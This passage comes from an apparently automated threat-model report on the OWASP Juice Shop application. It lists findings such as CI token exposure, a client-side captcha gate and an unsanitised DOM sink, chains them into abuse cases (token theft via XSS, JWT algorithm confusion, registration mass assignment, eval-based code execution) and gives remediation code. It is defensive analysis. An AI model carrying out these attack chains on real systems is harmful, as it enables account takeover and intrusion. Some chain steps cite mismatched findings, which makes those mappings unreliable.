Exfiltration of `ORG_ADMIN_TOKEN` grants an attacker org-admin capabilities on the `juice-shop` GitHub organization. Exfiltration of `DOCKERHUB_TOKEN` enables publishing malicious image versions.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `pr-compliance.yml:438` assigns `ORG_ADMIN_TOKEN: ${{ secrets.ORG_ADMIN_TOKEN }}` in a step that co-runs with untrusted PR metadata in the same job context.

**Fix:** Strip secrets and PII from every log sink and rotate any token that already leaked → ❸ [M-070](#m-070) — Isolate high-privilege secrets to dedicated minimal workflows triggered by workflow_run events

**Classification:** Supply-Chain Integrity · [CWE-532](https://cwe.mitre.org/data/definitions/532.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-086"></a><a id="f-086"></a>
#### F-086 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/dependabot.yml`

**Instances (1):** `.github/dependabot.yml`

**Issue:** No Dependabot configuration exists in the repository. npm dependencies will not receive automated security-update pull requests, increasing the window between CVE disclosure and remediation.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❸ [M-007](#m-007) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-087"></a><a id="f-087"></a>
#### F-087 · Uncontrolled Resource Consumption

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - Data Persistence Layer  ·  **Location:** `models/index.ts:30`

**Issue:** The Sequelize instance at `models/index.ts:30` is initialized without a `dialectOptions.timeout` or query-level timeout. SQLite uses a single writer lock.

A single malicious time-delay SQL payload stalls all concurrent write operations against the SQLite database, denying service to legitimate users.

**Evidence:** ✓ verified - Sequelize init at `models/index.ts:30` has no `dialectOptions: { timeout: N }` or `pool.acquire` timeout; queries run unbounded.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-071](#m-071) — Offload CPU-bound work and bound execution time

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-088"></a><a id="f-088"></a>
#### F-088 · Uncontrolled Resource Consumption

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Angular 20 SPA Frontend  ·  **Location:** `frontend/src/app/data-export/data-export.component.ts:48`

**Issue:** The `DataExportComponent.needCaptcha()` at lines 46-52 implements a time-gated captcha by comparing the current time against `localStorage.getItem('lstdtxprt')`. If more than 5 minutes have passed, no captcha is required.

An attacker (or XSS payload) can reset the captcha timer and issue unlimited data export API calls, potentially causing backend DoS or extracting all user PII without triggering the captcha.

**Evidence:** ✓ verified - `data-export.component.ts:48-52` gates captcha display on a `localStorage` timestamp that any script on the origin can clear or reset.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-072](#m-072) — Move data export rate limiting to server-side middleware; remove client-side localStorage gate

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-089"></a><a id="f-089"></a>
#### F-089 · Improper Access Control

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/workflows/pr-compliance.yml:4`

**Issue:** `pr-compliance.yml` uses the `pull_request_target` trigger at line 4 and declares `permissions: pull-requests: write` and `issues: write` at lines 7-9. Unlike `pull_request`, the `pull_request_target` event runs in the context of the base repository - giving it access to base-repo secrets and write permissions - even for PRs from untrusted forks.

An attacker who successfully injects into the github-script execution context gains `pull-requests: write`, `issues: write` permissions and access to the `ORG_ADMIN_TOKEN` - enabling org-level user blocking or account enumeration.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `pr-compliance.yml:4` triggers on `pull_request_target` (base-repo context with write permissions) for every externally submitted PR, while `pr-compliance.yml:438` loads `ORG_ADMIN_TOKEN` into the same runner environment.

**Fix:** Add explicit server-side authorisation checks on every protected route → ❸ [M-073](#m-073) — Restrict pull_request_target permissions and isolate ORG_ADMIN_TOKEN to a separate minimal workflow

**Classification:** Broken Access Control · [CWE-284](https://cwe.mitre.org/data/definitions/284.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-078"></a><a id="f-078"></a>
#### F-078 · Cross-Site Scripting

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Angular 20 SPA Frontend  ·  **Location:** `frontend/src/hacking-instructor/index.ts:126`

**Issue:** At `hacking-instructor/index.ts:126`, `textBox.innerHTML = snarkdown(hint.text)` assigns Markdown-rendered HTML directly to the DOM without sanitization. `snarkdown` converts Markdown to HTML but does not sanitize the output.

An attacker who can influence `hint.text` content (e.g., via a backend misconfiguration or future dynamic loading) achieves DOM XSS execution in the user's browser.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `hacking-instructor/index.ts:126` assigns `snarkdown(hint.text)` to `textBox.innerHTML` - an unsanitized DOM sink.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❸ [M-065](#m-065) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟢 Low (3)

<a id="t-090"></a><a id="f-090"></a>
#### F-090 · Insufficient Logging

**Severity:** 🟢 Low  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:34`

**Issue:** The three inbound socket event handlers (`notification received`, `verifyLocalXssChallenge`, `verifySvgInjectionChallenge`) in `registerWebsocketEvents.ts` record no connection identity, source IP, or user binding when processing events. Post-incident investigation cannot determine which IP or user account triggered a socket-based challenge solve, blocking attribution of game-state manipulation.

**Evidence:** ✓ verified - None of the three `socket.on(...)` handlers in `registerWebsocketEvents.ts` call `logger.*` before processing events, and `challengeUtils.solve()` logs only the challenge key without actor context.

**Fix:** ❹ [M-074](#m-074) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-091"></a><a id="f-091"></a>
#### F-091 · Missing HEALTHCHECK instruction

**Severity:** 🟢 Low  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Issue:** Without a HEALTHCHECK directive, Docker and container orchestrators cannot detect a hung or crashed application process. A poisoned container that accepts TCP connections but returns errors will not be flagged as unhealthy, delaying incident response.

**Evidence:** ✓ verified

**Fix:** ❹ [M-008](#m-008) — Add a container healthcheck

**Classification:** Error Information Disclosure · [CWE-703](https://cwe.mitre.org/data/definitions/703.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-092"></a><a id="f-092"></a>
#### F-092 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟢 Low  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `renovate.json`

**Issue:** No Renovate configuration file is present at any standard location. Without automated dependency update tooling (Dependabot or Renovate), vulnerable transitive dependencies may persist indefinitely.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❹ [M-009](#m-009) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

---

_**Severity annotation:** rows tagged `*(raw Critical)*` had a Critical-class impact that was capped to a lower effective severity by the triage stage (likelihood downgrade or `data/severity-caps.yaml` rule). The rendered severity is the **effective** severity used for ranking and prioritisation; the raw severity is preserved here so reviewers can re-evaluate the cap decision._

---

_**Evidence verification:** rows tagged `⚠ (evidence refuted)` were re-checked by the Phase 10a evidence-verifier (see `.evidence-verification.json`) and the cited `file:line` did **not** show the claimed weakness. Their raw severity is preserved, but chain-elevation has been suppressed by the triage stage. Rows tagged `◌ (evidence ambiguous)` could not be confirmed or refuted from the cited snippet alone - a human reviewer should decide whether to keep, downgrade, or remove these findings._

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-001](#ac-t-001) | Account Takeover via Stored XSS + Token<br/>Hijacking | external-attacker | 🟠 High | ◐ Partially blocked |
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🔴 Critical | ◐ Partially blocked |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on<br/>Registration | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🔴 Critical | ⚠ Fully viable |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

### <a id="ac-t-001"></a>AC-T-001 — Account Takeover via Stored XSS + Token Hijacking

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🟠 High · **Verdict:** ◐ Partially blocked

**Goal:** Obtain persistent authenticated access as an arbitrary user without valid credentials.

**Prerequisite:** Attacker can submit content that is later rendered to other users (e.g. feedback, comments, profile fields).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-044](#f-044) — Stored XSS — `about.component.ts:119` | Attacker JavaScript executes in the victim's<br/>browser session. |
| 2 | 🟠 [F-001](#f-001) — Insecure Storage of Sensitive Information — `last-login-ip.component.ts:34`<br/>`frontend/src/app/login/login.component.ts:101` | Token exfiltrated from local/session storage<br/>via the Step 1 payload. |
| 3 | 🟠 [F-033](#f-033) — OAuth Implicit Flow with No State Validation — `app.routing.ts:262`<br/>`lib/insecurity.ts:54` | Exfiltrated token accepted for a new<br/>session; absence of token binding / PKCE<br/>removes the last server-side revocation<br/>opportunity. |

**Why combined risk exceeds individual ratings**

Individually the XSS sink and the web-readable token storage rate below Critical, but chained they form a repeatable credential-theft path: a single stored payload causes indefinite session compromise for every user who views the affected page.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-035](#m-035) — Encode output instead of bypassing the framework sanitizer (**P2**): remediating 🟠 [F-044](#f-044) — Stored XSS — `about.component.ts:119` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❸ [M-010](#m-010) — Store session tokens in HttpOnly, Secure cookies (**P3**): remediating 🟠 [F-001](#f-001) — Insecure Storage of Sensitive Information — `last-login-ip.component.ts:34` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.
- ❸ [M-026](#m-026) — Harden the authentication flow (**P3**): remediating 🟠 [F-033](#f-033) — OAuth Implicit Flow with No State Validation — `app.routing.ts:262` breaks the chain at **Step 3**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-002"></a>AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`routes/basket.ts:19` | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`server.ts:483` | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-003"></a>AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery — `lib/insecurity.ts:23` | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`lib/insecurity.ts:159` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery — `lib/insecurity.ts:23` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-004"></a>AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`server.ts:483` | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Why combined risk exceeds individual ratings**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-005"></a>AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-002](#f-002) — SQL Injection in login query — `routes/login.ts:34`<br/>`lib/insecurity.ts:23` | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery — `lib/insecurity.ts:23` | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-011](#m-011) — Use parameterized database queries (**P1**): remediating 🔴 [F-002](#f-002) — SQL Injection in login query — `routes/login.ts:34` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery — `lib/insecurity.ts:23` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-006"></a>AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-007](#f-007) — Remote Code Execution — `routes/userProfile.ts:62` | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-016](#m-016) — Remove server-side evaluation of untrusted input (**P1**): remediating 🔴 [F-007](#f-007) — Remote Code Execution — `routes/userProfile.ts:62` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>❶ [M-011](#m-011) — Use parameterized database queries<br/>❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store<br/>❶ [M-013](#m-013) — Enforce JWT signature and algorithm verification<br/>❶ [M-015](#m-015) — Use parameterized database queries<br/>❶ [M-016](#m-016) — Remove server-side evaluation of untrusted input<br/>❶ [M-017](#m-017) — Enforce object-level (ownership) authorization<br/>❶ [M-018](#m-018) — Enforce server-side field allowlist before every Sequelize User write…<br/>❶ [M-020](#m-020) — Hash passwords with a strong, salted algorithm<br/>❶ [M-021](#m-021) — Remove server-side evaluation of untrusted input<br/>❶ [M-022](#m-022) — Exclude role field from user registration body before model creation<br/>❶ [M-023](#m-023) — Remove server-side evaluation of untrusted input<br/>❷ [M-001](#m-001) — Apply least-privilege permissions<br/>❷ [M-002](#m-002) — Pin third-party dependencies to immutable versions<br/>❷ [M-003](#m-003) — Pin the container base image to an immutable digest<br/>❷ [M-004](#m-004) — Pin the container base image to an immutable digest<br/>❷ [M-014](#m-014) — Eliminate derived passwords; use server-side OAuth token exchange…<br/>❷ [M-019](#m-019) — Stop storing sensitive data in cleartext<br/>❷ [M-024](#m-024) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-025](#m-025) — Hash passwords with a strong, salted algorithm<br/>❷ [M-027](#m-027) — Add JWT authentication middleware to Socket\.IO connection handshake<br/>❷ [M-029](#m-029) — Hash passwords with a strong, salted algorithm<br/>❷ [M-030](#m-030) — Replace the weak cryptographic algorithm<br/>❷ [M-031](#m-031) — Enforce object-level (ownership) authorization<br/>❷ [M-032](#m-032) — Drop unnecessary privileges in build and runtime<br/>❷ [M-033](#m-033) — Pin third-party dependencies to immutable versions<br/>❷ [M-034](#m-034) — Pin the container base image to an immutable digest<br/>❷ [M-035](#m-035) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-036](#m-036) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-037](#m-037) — Derive lastLoginIp from socket.remoteAddress rather than a spoofable…<br/>❷ [M-038](#m-038) — Add security audit logging<br/>❷ [M-039](#m-039) — Add security audit logging<br/>❷ [M-040](#m-040) — Add security audit logging<br/>❷ [M-041](#m-041) — Set HttpOnly, Secure, and SameSite=Strict on the JWT token cookie<br/>❷ [M-042](#m-042) — Stop exposing internal information to clients<br/>❷ [M-043](#m-043) — Stop exposing internal information to clients<br/>❷ [M-044](#m-044) — Move cryptographic keys to a managed secret store<br/>❷ [M-045](#m-045) — Stop storing sensitive data in cleartext<br/>❷ [M-046](#m-046) — Disable XML external entity (XXE) resolution<br/>❷ [M-047](#m-047) — Stop exposing internal information to clients<br/>❷ [M-048](#m-048) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-049](#m-049) — Add per-IP rate limiting to POST `/b2b/v2/orders`<br/>❷ [M-050](#m-050) — Apply rate limiting and account lockout to POST `/rest/user/login`<br/>❷ [M-051](#m-051) — Bound parser and decompression resource limits<br/>❷ [M-052](#m-052) — Set Socket\.IO connection limits and add upstream rate limiting for…<br/>❷ [M-053](#m-053) — Apply least-privilege permissions<br/>❷ [M-054](#m-054) — Enforce object-level (ownership) authorization<br/>❷ [M-055](#m-055) — Enforce server-side authorization on every endpoint<br/>❷ [M-056](#m-056) — Enforce server-side authorization on every endpoint<br/>❷ [M-057](#m-057) — Validate and allowlist outbound request targets<br/>❷ [M-058](#m-058) — Apply least-privilege permissions<br/>❷ [M-060](#m-060) — Constrain file paths to a safe base directory<br/>❷ [M-061](#m-061) — Add JWT authentication middleware to the `/file-upload` route before all…<br/>❷ [M-062](#m-062) — Replace `yaml.load` with yaml.safeLoad or a schema-restricted YAML parser<br/>❷ [M-063](#m-063) — Add server-side authorization middleware to all admin and accounting…<br/>❸ [M-005](#m-005) — Sign and verify release artifacts<br/>❸ [M-006](#m-006) — Disable untrusted package install scripts<br/>❸ [M-007](#m-007) — Pin the container base image to an immutable digest<br/>❸ [M-010](#m-010) — Store session tokens in HttpOnly, Secure cookies<br/>❸ [M-026](#m-026) — Harden the authentication flow<br/>❸ [M-028](#m-028) — Replace security-question reset with time-limited emailed token and…<br/>❸ [M-059](#m-059) — Enforce object-level (ownership) authorization<br/>❸ [M-064](#m-064) — Pin the container base image to an immutable digest<br/>❸ [M-065](#m-065) — Encode output instead of bypassing the framework sanitizer<br/>❸ [M-066](#m-066) — Add security audit logging<br/>❸ [M-067](#m-067) — Verify token signatures before trusting claims<br/>❸ [M-068](#m-068) — Add security audit logging<br/>❸ [M-069](#m-069) — Return generic error messages to clients<br/>❸ [M-070](#m-070) — Isolate high-privilege secrets to dedicated minimal workflows…<br/>❸ [M-071](#m-071) — Offload CPU-bound work and bound execution time<br/>❸ [M-072](#m-072) — Move data export rate limiting to server-side middleware; remove…<br/>❸ [M-073](#m-073) — Restrict pull_request_target permissions and isolate ORG_ADMIN_TOKEN…<br/>❹ [M-008](#m-008) — Add a container healthcheck<br/>❹ [M-009](#m-009) — Pin the container base image to an immutable digest<br/>❹ [M-074](#m-074) — Add security audit logging

### P1 — Immediate

<a id="m-011"></a>
#### M-011 — Use parameterized database queries

**Addresses:**

- 🔴 [F-002](#f-002) — SQL Injection in login query (`routes/login.ts:34`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/login.ts:34`

**How:** Replace `models.sequelize.query()` at `routes/login.ts:34` with UserModel.`findOne`({ where: `{ email: req.body.email, password: security.hash(req.body.password), deletedAt: null }` }) - Sequelize generates a parameterised query automatically. Add express-validator or zod schema validation on `req.body.email` (must be RFC 5321 email format) before the DB call. Apply express-rate-limit at `server.ts:594` on `POST /rest/user/login` (e.g. 10 attempts per 15 minutes per IP).

1. Replace `models.sequelize.query()` at `routes/login.ts:34` with UserModel.`findOne`({ where: `{ email: req.body.email, password: security.hash(req.body.password), deletedAt: null }` }) - Sequelize generates a parameterised query automatically.
2. Add express-validator or zod schema validation on `req.body.email` (must be RFC 5321 email format) before the DB call.
3. Apply express-rate-limit at `server.ts:594` on `POST /rest/user/login` (e.g. 10 attempts per 15 minutes per IP).

```javascript
// routes/login.ts — safe replacement
const authenticatedUser = await UserModel.findOne({
  where: {
    email: req.body.email,
    password: security.hash(req.body.password ?? ''),
    deletedAt: null
  }
})
```

**Reference:** CWE-89

---

<a id="m-012"></a>
#### M-012 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery (`lib/insecurity.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** Remove the hardcoded `privateKey` string from `lib/insecurity.ts:23`. Rotate the key pair - the existing key must be considered fully compromised. Generate a new 2048-bit (minimum) RSA key pair. Store the private key in an environment variable (JUICE_SHOP_JWT_PRIVATE_KEY) or a secrets manager (e.g. AWS Secrets Manager, HashiCorp Vault). Load via: const `privateKey` = `process.env.JUICE_SHOP_JWT_PRIVATE_KEY` ?? `fs.readFileSync('/run/secrets/jwt_private_key', 'utf8')`; and validate it is non-empty at startup. Upgrade jsonwebtoken from 0.4.0 to ^9.x and express-jwt from 0.1.3 to ^8.x. Pin algorithms: `expressJwt({ secret: publicKey, algorithms: ['RS256'] })`.

1. Remove the hardcoded `privateKey` string from `lib/insecurity.ts:23`. Rotate the key pair - the existing key must be considered fully compromised.
2. Generate a new 2048-bit (minimum) RSA key pair. Store the private key in an environment variable (JUICE_SHOP_JWT_PRIVATE_KEY) or a secrets manager (e.g. AWS Secrets Manager, HashiCorp Vault).
3. Load via: const `privateKey` = `process.env.JUICE_SHOP_JWT_PRIVATE_KEY` ?? `fs.readFileSync('/run/secrets/jwt_private_key', 'utf8')`; and validate it is non-empty at startup.
4. Upgrade jsonwebtoken from 0.4.0 to ^9.x and express-jwt from 0.1.3 to ^8.x. Pin algorithms: `expressJwt({ secret: publicKey, algorithms: ['RS256'] })`.

```javascript
// lib/insecurity.ts — load key from env
const privateKey = process.env.JUICE_SHOP_JWT_PRIVATE_KEY ||
  fs.readFileSync('/run/secrets/jwt_private_key', 'utf8')
if (!privateKey) throw new Error('JWT private key not configured')
```

**Reference:** CWE-321

---

<a id="m-013"></a>
#### M-013 — Enforce JWT signature and algorithm verification

**Addresses:**

- 🔴 [F-004](#f-004) — Insecure JWT Verification (`lib/insecurity.ts:54`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:57`

**How:** Upgrade express-jwt to ^8.x and jsonwebtoken to ^9.x. Change `isAuthorized()` to: `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` - this rejects any token with `alg:none` or unexpected algorithms. Update `security.verify()` at `lib/insecurity.ts:57` to use `jsonwebtoken.verify(token, publicKey, { algorithms: ['RS256'] })` instead of jws.verify. Verify `routes/2fa.ts:26` uses the updated `security.verify()` so the MFA step also enforces algorithm pinning.

1. Upgrade express-jwt to ^8.x and jsonwebtoken to ^9.x.
2. Change `isAuthorized()` to: `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` - this rejects any token with `alg:none` or unexpected algorithms.
3. Update `security.verify()` at `lib/insecurity.ts:57` to use `jsonwebtoken.verify(token, publicKey, { algorithms: ['RS256'] })` instead of jws.verify.
4. Verify `routes/2fa.ts:26` uses the updated `security.verify()` so the MFA step also enforces algorithm pinning.

```javascript
// lib/insecurity.ts
import { expressjwt } from 'express-jwt'
export const isAuthorized = () =>
  expressjwt({ secret: publicKey, algorithms: ['RS256'] })
```

**Reference:** CWE-347

---

<a id="m-015"></a>
#### M-015 — Use parameterized database queries

**Addresses:**

- 🔴 [F-006](#f-006) — SQL Injection in Product Search Route (`routes/search.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/search.ts:23`

**How:** Use Sequelize `Op.like` with the ORM: `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: `%\${criteria}%` } }, { description: { [Op.like]: `%\${criteria}%` } }], deletedAt: null } })` - Sequelize escapes the value in LIKE expressions. Alternatively use `sequelize.query('SELECT * FROM Products WHERE (name LIKE ? OR description LIKE ?) AND deletedAt IS NULL', { replacements: [`%\${criteria}%`, `%\${criteria}%`], ... })`. Validate `criteria` to only allow printable non-control characters before the database call.

1. Use Sequelize `Op.like` with the ORM: `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: `%\${criteria}%` } }, { description: { [Op.like]: `%\${criteria}%` } }], deletedAt: null } })` - Sequelize escapes the value in LIKE expressions.
